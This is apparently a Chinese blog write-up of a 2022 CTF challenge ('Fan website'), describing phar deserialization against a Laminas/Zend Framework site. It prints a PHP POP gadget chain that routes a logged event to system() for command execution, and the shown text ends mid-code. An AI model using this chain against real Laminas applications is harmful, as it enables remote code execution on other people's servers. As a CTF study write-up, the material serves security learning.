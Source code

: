```yaml
---
title: 2022红明谷ctf
date: 2022-4-25 23:10:33
tags: [phar,沙箱逃逸]
categories: 比赛题目复现
top_img: https://wallroom.io/img/2880x1620/bg-b83e2e6.jpg
cover: https://images3.alphacoders.com/608/thumbbig-608362.webp
---
```


# 红明谷ctf

## Fan website

考点：

```
1.phar反序列化
```

dirsearch扫出了www.zip,下载下来获得源码

网上找个链子[Zend FrameWork Pop Chain - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/8975#toc-12)

用其中的这条

```php
<?php

namespace Laminas\View\Resolver{
    class TemplateMapResolver{
        protected $map = ["setBody"=>"system"];
    }
}
namespace Laminas\View\Renderer{
    class PhpRenderer{
        private $__helpers;
        function __construct(){
            $this->__helpers = new \Laminas\View\Resolver\TemplateMapResolver();
        }
    }
}


namespace Laminas\Log\Writer{
    abstract class AbstractWriter{}

    class Mail extends AbstractWriter{
        protected $eventsToMail = ["ls"];  
        protected $subjectPrependText = null;
        protected $mail;
        function __construct(){
            $this->mail = new \Laminas\View\Renderer\PhpRenderer();
        }
    }
}

namespace Laminas\Log{
    class Logger{
        protected $writers;
        function __construct(){
            $this->writers = [new \Laminas\Log\Writer\Mail()];
        }
    }
```